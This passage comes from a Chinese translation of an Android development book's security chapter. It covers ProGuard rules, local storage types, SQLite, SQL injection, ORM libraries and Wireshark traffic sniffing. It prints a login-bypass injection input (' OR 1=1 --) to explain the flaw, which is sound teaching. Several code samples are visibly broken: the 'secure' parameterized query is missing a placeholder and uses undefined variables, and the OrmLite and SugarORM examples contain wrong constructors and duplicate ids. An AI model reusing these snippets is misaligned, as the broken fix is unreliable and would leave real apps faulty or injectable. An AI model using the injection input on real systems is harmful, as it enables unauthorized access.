-keep public class * extends android.content.ContentProvider

-keep public class * extends android.view.View {
    public <init>(android.content.Context);
    public <init>(android.content.Context, android.util.AttributeSet);
    public <init>(android.content.Context, android.util.AttributeSet, int);
    public void set*(...);
}

-keepclasseswithmembers class * {
    public <init>(android.content.Context, android.util.AttributeSet);
}

-keepclasseswithmembers class * {
    public <init>(android.content.Context, android.util.AttributeSet, int);
}

-keepclassmembers class * extends android.content.Context {
   public void *(android.view.View);
   public void *(android.view.MenuItem);
}

-keepclassmembers class * implements android.os.Parcelable {
    static ** CREATOR;
}

-keepclassmembers class **.R$* {
    public static <fields>;
}

-keepclassmembers class * {
    @android.webkit.JavascriptInterface <methods>;
}
```

ProGuard 通常需要为新添加的库包含一个自定义配置，特别是使用反射的库。在 Android Studio 项目中，ProGuard 文件将定期更新。

自从支持库 19.1 版本以来，函数 `@Keep` 被包含在注释库的一部分中。这个注释可以用来指定一个方法不应该被混淆。当我们通过反射访问方法时，这特别有用。

# 不安全的存储

存储是将信息保存到我们的设备或计算机的过程。Android API 基本上提供了五种不同的存储类型：

## SharedPreferences

第一种也是最基本的是 `SharedPreferences`。这种存储类型将信息保存为 XML 文件，在私有文件夹中，我们保存的作为与每个值相关联的原始对。在下面的屏幕截图中，我们可以看到 `shared_prefs` 文件夹下的所有文件。这些文件是 `SharedPreferences` 文件。



如果我们从设备中提取其中一个，我们将能够看到以下内容：



XML 文件内的每个值都有以下结构：

```kt
<string name="AppStateRepository:AppVersion">2.0.0_1266 p P 1/11/16 10:53 AM</string>
```

名称是由文件名和变量名（我们用来存储值的名称）的组合构成的。原始类型 `SharedPreference` 也在 XML 标签内被界定（例如，`<string…</string>`）。最后，值包含在值字段内。

为了存储 `SharedPreferences`，我们需要使用类似于以下代码段的代码：

```kt
SharedPreferences settings = getSharedPreferences("NameOfPreferences", 0);
SharedPreferences.Editor editor = settings.edit();
editor.putBoolean("exampleValue", false);
```

为了提交更改，我们需要：

```kt
editor.commit();
```

为了恢复我们刚才存储的值，我们需要进行如下操作：

```kt
SharedPreferences settings = getSharedPreferences("NameOfPreferences", 0);
boolean exampleValue = settings.getBoolean("exampleValue", false);
```

## InternalStorage（内部存储）

另一种是 InternalStorage。这意味着将信息存储在设备的内部内存中；只能由应用程序访问。如果用户卸载应用程序，此文件夹也将被卸载。

这是我们如何在 `InternalStorage` 中存储信息的方法：

```kt
String FILENAME = "hello_file";
String name = "hello world!";

FileOutputStream fos = openFileOutput(FILENAME, Context.MODE_PRIVATE);
fos.write(name.getBytes());
fos.close();
```

上述代码段将会在名为 `hello_file` 的文件中存储字符串 `"hello_world"`。

存储文件有不同的模式，不仅仅是我们在本段中看到的 `MODE_PRIVATE`：

+   `MODE_APPEND`：这个模式意味着如果文件已经存在，它将在文件末尾添加内容，而不是覆盖它。

+   `MODE_WORLD_READABLE`：这是一个危险的文件模式，因为它可以被整个系统读取，可能会造成安全漏洞。如果你想使用一种在应用程序之间共享信息的方法，最好使用 Android 内置的机制之一。这个模式为整个系统提供了对文件的读取模式。

+   `MODE_WORLD_WRITEABLE`：这与之前提到的类似，但在这个情况下，它提供了写入权限。

内部文件还有一个有趣的用途。如果我们使用 `getCacheDir()` 函数打开它们，可以作为缓存机制。通过这种方式打开文件，我们告诉 Android，当系统内存不足时，可以收集这个文件。请注意，不能 100%保证 Android 会收集这个文件。因此，除了依赖系统，你应该始终确保文件不会超过一定大小。当用户卸载应用程序时，这些文件将被自动删除：



### 注意

`data/data` 文件夹受到保护，未 root 的设备无法访问（它们被称为**私有存储**）。然而，如果设备被 root 了，它们可以很容易地被读取。这就是为什么我们绝不能在那里存储关键信息。

## ExternalStorage（外部存储）

与之前研究的内部文件类似，ExternalStorage 将创建一个文件，但它不是保存到私有文件夹中，而是保存到外部文件夹中（通常是 SD 卡）。为了使用 ExternalStorage，我们需要两个权限：

```kt
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
android:maxSdkVersion="18" />
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"
android:maxSdkVersion="18" />
```

注意这一行 `android:maxSdkVersion="18"`。从 API 级别 18 开始，应用程序不再需要写入 ExternalStorage 的权限。然而，由于 Android 极度碎片化，这样做是一个好主意。

读者可能已经想象到，这些权限用于分别写入和读取 ExternalStorage。

为了写入或读取 ExternalStorage，我们首先需要证明它是可用的（例如，可能会发生存储单元未挂载的情况，因此我们的应用程序将无法写入）：

```kt
public boolean checkIfExternalStorageIsWritable() {
String state = Environment.getExternalStorageState();
if (Environment.MEDIA_MOUNTED.equals(state)) {
     return true;
}
     return false;
}

public boolean checkIfExternalStorageIsReadable() {
   String state = Environment.getExternalStorageState();
   if (Environment.MEDIA_MOUNTED.equals(state) ||
   Environment.MEDIA_MOUNTED_READ_ONLY.equals(state)) {
      return true;
   }
   return false;
}
```

当确认我们可以访问存储系统后，我们可以继续进行文件的读取或写入操作。在文件中写入内容的过程与 Java 中的操作非常相似：

```kt
String filename = FILENAME;
File file = new File(Environment.getExternalStorageDirectory(), filename);
FileOutputStream fos;

fos = new FileOutputStream(file);
fos.write(mediaTagBuffer);
fos.flush();
fos.close();
```

同样，如果我们想要从 ExternalStorage 中读取文件，可以使用类似的代码片段：

```kt
File file = new File(Environment.getExternalStorageDirectory()
.getAbsolutePath(), filename);
```

## 删除文件

请记住，使用 ExternalStorage 时，当应用程序被移除时，文件不会被删除。如果应用程序设计不当，我们可能会因为永远不会使用的文件而占用大量空间。

通常的做法是将备份信息存储在 ExternalStorage 中，但你应该问自己这是否是最好的选择。为了评估是否应该使用 ExternalStorage，首先查询设备上可用的自由空间是一个好习惯：

```kt
File path = Environment.getExternalStorageDirectory();
StatFs stat = new StatFs(path.getPath());
long blockSize = stat.getBlockSize();
long availableBlocks = stat.getAvailableBlocks();
return Formatter.formatFileSize(this, availableBlocks * blockSize);
```

可以通过调用以下命令轻松删除文件：

```kt
file.delete();

```

## 使用外部或内部存储

既然我们知道了这两种可能性，读者可能会询问哪个地方是存储信息的理想选择。

没有银弹，也没有完美答案。答案可能会根据你的限制和试图解决的问题场景而有所不同。然而，请记住以下总结点：

+   即使应用程序被移除，ExternalStorage 中保存的文件仍然存在。另一方面，当应用程序被移除时，InternalStorage 中保存的所有文件也会被移除。

+   InternalStorage 总是可用的。ExternalStorage 的可用性则取决于设备。

+   InternalStorage 提供了更好的保护级别，防止外部访问文件，而 ExternalStorage 中的文件可以从整个应用程序普遍访问。请记住，已获得 root 权限的设备可以随时访问 InternalStorage 和 ExternalStorage。

## 数据库

Android 原生支持 SQLite 数据库。使用数据库存储的文件保存在一个私有文件夹（`/data/data`）。Android 原生提供了 `SQLiteOpenHelper` 对象，可用于存储到表格中。让我们看看使用 `SQLiteOpenHelper` 的代码示例：

```kt
public class ExampleOpenHelper extends SQLiteOpenHelper {

   private static final int DATABASE_VERSION = 2;
   private static final String EXAMPLE_TABLE_NAME = "example";
   private static final String EXAMPLE_TABLE_CREATE =
           "CREATE TABLE " + EXAMPLE_TABLE_NAME + " (" +
           KEY_WORD + " TEXT, " +
           KEY_DEFINITION + " TEXT);";

   ExampleOpenHelper (Context context) {
      super(context, DATABASE_NAME, null, DATABASE_VERSION);
   }

   @Override
   public void onCreate(SQLiteDatabase db) {
      db.execSQL(EXAMPLE_TABLE_CREATE);
   }
}
```

如果数据库版本已经升级，我们可以使用 `onUpgrade()` 方法来更新数据库架构或在应用程序中执行任何需要的操作。以下截图展示了设备上安装的谷歌应用程序中的一个文件夹数据库：



## 数据库性能

在 Android 中，可以对 SQLite 数据库进行多项性能优化。这里我们提到其中的一些：

+   如果你的应用程序正在执行单一事务块，使用 `db.beginTransaction();` 和 `db.endTransaction();` 进行数据传输。默认情况下，每次你执行事务时，SQLite 运行时都会创建一个包装器，这使得操作成本变高。这仅在当你将此操作作为常规操作执行时（例如，在循环或迭代内部）建议使用。

+   在性能方面，关系是昂贵的。即使你使用了索引，处理关系所需的开销和努力也是相当大的，这很可能会明显减慢你的应用程序。

+   尽可能简化模式，避免不必要的属性。另一方面，模式也不应该过于通用——这会牺牲性能。在模式的代表性和性能之间取得平衡是困难的，但这对于数据库的生存至关重要。

+   避免为需要频繁访问的表创建视图。如果发生这种情况，有时创建一个特定的表并将所有信息存储在那里会更好。

+   尽可能使用 `SQLiteStatement`。从名字可以推断出，`SQLiteStatement` 是直接针对数据库执行的 SQL 语句。它能够显著提高性能和速度，尤其是与这个列表中的第一点结合使用时。

## SQL 注入

与所有数据库系统一样，Android 中的 SQLite 也可能遭受 SQL 注入。

当恶意数据被插入到合法查询中时，就会发生 SQL 注入，通常会对数据库产生严重影响。一个例子可以更好地说明这一点：

```kt
public boolean checkLogin(String username, String password) {
   boolean bool = false;
   Cursor cursor = db.rawQuery("select * from login where USERNAME = 
      '" + username + "' and PASSWORD = '" + password + "';", null);

   if (cursor != null) {
      if (cursor.moveToFirst())
      bool = true;
      cursor.close();
   }
   return bool;
}
```

假设输入变量 `username` 和 `password` 来自一个表单，用户需要输入它们。在正常情况下，我们预计 SQL 查询会变成这样：

```kt
select * from login where USERNAME = 'username' and PASSWORD = 'password'
```

但让我们假设一下，如果我们的用户是一个恶意的用户，他打算访问我们的数据库。他们可能会输入：

```kt
select * from login where USERNAME = '' OR 1=1 --' and PASSWORD = 'irrelevant'
```

由于他输入的条件是 (`1=1`) 并且查询的其余部分被注释掉，他实际上可以在不知道任何密码的情况下登录系统。为了防止 SQL 注入，最好的方法是清理正在输入的数据，并默认认为它不可信。为了做到这一点，我们将上述代码片段改成了以下形式：

```kt
public boolean checkLogin(String username, String password) {
   boolean bool = false;
   Cursor cursor = db.rawQuery("select * from login where USERNAME = 
      ? and PASSWORD = ", new String[]{param1, param2});

   if (cursor != null) {
      if (cursor.moveToFirst())
      bool = true;
      cursor.close();
   }
   return bool;
}
```

通过使用这个简单的方法，我们避免了恶意用户接管我们数据库的可能性。

## ORM 框架

除了在 Android 中处理 SQL 存储的纯方法之外，还有一种流行的处理方式称为 ORM 框架。尽管 ORM（对象关系映射）是一个旧范式，但它简化了处理 ORM 对象的任务，将我们从低级查询中抽象出来，使我们能够专注于应用程序的细节。几乎每种语言都有几个 ORM 框架：Java 中的 Hibernate，Ruby 中的 ActiveRecord 等等。Android 有一系列可用于 ORM 目的库：实际上，Android Arsenal 提供了令人惊叹的开源库集合。在这里，我们提供一些库的小例子来展示它们是如何工作的；当然，评估所有利弊并决定是否将其实现到自己的项目中，是读者的责任。

## OrmLite

OrmLite 是一个基于 Java 的开源框架，提供了 ORM 功能。请注意，它的名称不是 Android ORM Lite，这意味着它并非专门为 Android 设计的。OrmLite 大量使用注解。让我们看看使用 OrmLite 时类是什么样的一个例子：

```kt
@DatabaseTable(tableName = "books")
public class Book {
    @DatabaseField(id = true)
    private String isbn;
    @DatabaseField(id = true)
    private String title;
    @DatabaseField
    private String author;

    public User() {

    }
    public Book(String isbn, String title, String author) {
        this.isbn = isbn;
        this.title = title;
        this.author = author;
    }

    public String getIsbn() {
        return this.isbn;
    }
    public void setIsbn(String isbn) {
        this.isbn = isbn;
    }
    public String getTitle() {
        return this.title;
    }
    public void setTitle(String title) {
        this.title = title;
    }
    public String getAuthor() {
        return this.author;
    }
    public void setAuthor(String author) {
        this.author = author;
    }

}
```

OrmLite 在以下仓库中可以找到适用于 Android 的版本：

[`github.com/j256/ormlite-android`](https://github.com/j256/ormlite-android)。

## SugarORM

SugarORM 是一个专门为 Android 开发的 ORM 引擎，可以从 [`satyan.github.io/sugar/index.html`](http://satyan.github.io/sugar/index.html) 下载。如果你在一个使用 Gradle 的应用程序中，它甚至更容易，你只需在你的 Gradle 构建文件中添加一行：

```kt
compile 'com.github.satyan:sugar:1.4'
```

而 SugarORM 将会自动添加到你的项目中。现在是时候更新你的 `AndroidManifest.xml` 文件了：

```kt
  <meta-data android:name="DATABASE" android:value="sugar_example.db" />
    <meta-data android:name="VERSION" android:value="2" />
    <meta-data android:name="QUERY_LOG" android:value="true" />
    <meta-data android:name="DOMAIN_PACKAGE_NAME" android:value="com.example" />
```

这样，我们创建的类似于前面一个的 `Book` 类看起来是这样的：

```kt
public class Book extends SugarRecord<Book> {
    String isbn;
    String title;
    String author;

    public Book() { }

    public Book(String isbn, String title,String author){
        this.isbn = isbn;
        this.title = title;
        this.author = author;
    }
}
```

在模型创建后添加用户再简单不过了：

```kt
Book exampleBook = new Book(getContext(),"isbn","title","author"); exampleBook.save(); 
```

## GreenDAO

GreenDAO 可以说是 Android 上最快、性能最好的 ORM 引擎。它专门为 Android 设计，因此其开发考虑到了 Droid 平台的特殊性，帮助 ORM 引擎的速度比 OrmLite 快达 4.5 倍。下面的图表来自 GreenDao 的官方网站，它展示了与 OrmLite 在三种不同情况下（插入语句、更新语句或加载实体）的性能比较。



## Realm

Realm 是一个相对较新的 ORM 引擎，被提议作为 SQLite（以及 iOS 中的 CoreData）的替代品。Realm 并不是建立在 SQLite 之上，而是建立在它自己的持久化引擎之上。这个引擎的一个优点是它是多平台的，因此可以轻松地在不同的技术之间复用。据说它非常轻量级且快速。它具有简单和简约的本质，如果我们需要执行复杂操作，这也可能是一个缺点。以下面的 `Book` 示例，这就是我们如何使用 Realm 处理它：

```kt
Realm realm = Realm.getInstance(this.getContext());
realm.beginTransaction();
Book book = realm.createObject(Book.class);
book.setIsbn("1111111x11");
book.setTitle("Book Title");
book.setAuthor("Book author");
realm.commitTransaction();
```

## 网络

将数据存储在云上、自己的后端或任何其他在线解决方案，如果操作得当（阅读下一节关于与服务器通信时加密的内容），在安全性方面将是最佳选择。为了执行网络操作，Android 默认提供了一些类，同时还有许多框架和库可以提供高级别的层来创建 HTTP 请求。

# 加密通信

我们怎么强调都不过分，在创建 Web 服务以及与应用程序通信时使用加密的通信渠道有多么重要。

最初，它旨在作为科学机构之间交换文档和信息的协议，因此那时安全性不是一个重要问题。

互联网发展得非常快，最初受限的 HTTPs 突然面临数百万用户之间的互动。有许多资源可以讨论 SSL 以及加密是如何进行的。为了本书的目的，我们将提到 HTTPS（代表**HTTP Secure**，即 SSL 上的 HTTP）下的通信通常能够抵御中间人攻击，并且不容易被嗅探。然而，攻击者仍然有一些方法可以破解通信通道并窃取通信内容，但这需要更深入的知识和对受害者的访问权限。不过，我们将会提到它们，以防读者想要研究。

## 嗅探

嗅探是攻击者用来从网络连接中收集信息的主要过程。有趣的是，为了嗅探其他设备的流量，你不需要欺骗它们并让它们连接到你的网络。只需连接到同一个网络就可以轻松完成。

要做到这一点，你需要从其官方网站[`www.wireshark.org/`](https://www.wireshark.org/)下载 Wireshark。根据你尝试安装的操作系统的不同，你可能还需要下载一些其他软件包。在无线网卡上开启监控或混杂模式。在 Linux 和各种 BSD 系统中（包括 Macintosh），这个过程相当简单。在 Windows 上，这个过程可能会相当复杂，有时需要特殊的无线网卡或工具。

当我们第一次启动 Wireshark 时，将会显示一个类似的屏幕：



在屏幕中央，将会显示所有可供监控的不同接口列表。这可能因机器而异，但在上一个列表中我们可以看到：

+   Wi-Fi 接口

+   Vboxnet 是与虚拟机对应的接口

+   来自 Macintosh 计算机的 Thunderbolt 接口

+   lo0 或回环是本地机器

+   **苹果无线直接链接接口**（**awdl**）

为了测试目的，我们将启动一个模拟器，并选择要监控的 Wi-Fi 接口。

### 注意

请注意，在你没有权限的网络中嗅探流量，在最好的情况下可能是不友好的行为。在最坏的情况下，你可能会犯下罪行。在将这一知识付诸实践之前，请检查你所在国家或地区的法律情况。

现在让我们从设备开始浏览。如果我们启动浏览器并访问一个没有任何保护的网站，我们将能够显示浏览器执行的所有不同请求：带有其 cookies 的 HTTP GET 操作、不同的资源等等：



在前面的屏幕截图中，我们可以看到 cookies、用户代理、主机……几乎整个 HTTP 请求都是透明的！这就是当我们尝试连接到一个没有 SSL 的 URL 时发生的情况。如果你检查设备上安装的应用程序，你会发现经常有一些应用程序没有使用任何加密，只是以纯文本形式发送信息。

# 总结

本章节分析了应用程序中的安全措施。安全本身是一个复杂的主题，其内容可以扩展到多本书籍。阅读完本章后，读者将了解数据可能被截获的方式。他们将能够安全地存储信息。可以对代码进行渗透分析，反之，也可以检查应用程序是否在无意中暴露敏感信息。

ProGuard 是一个广泛用于保护我们应用程序的工具。我们建议读者进一步查看官方文档。

在阅读本章之后，读者应该熟悉在 Android 中安全存储信息的所有不同选项，以及它们的优缺点。读者应该能够识别 SQL 注入并知道如何预防。

读者还将了解到，当网络没有得到正确保护时，嗅探流量的可能性。他们将熟悉 Wireshark 及其所提供的可能性。

安全是一个庞大的话题，许多公司和研究组织都在积极投资资源以检测和预防隐私和安全问题。由于篇幅有限，我们未能提及许多其他商业和开源工具。对于感兴趣的用户，我们建议阅读 OWASP 通讯。
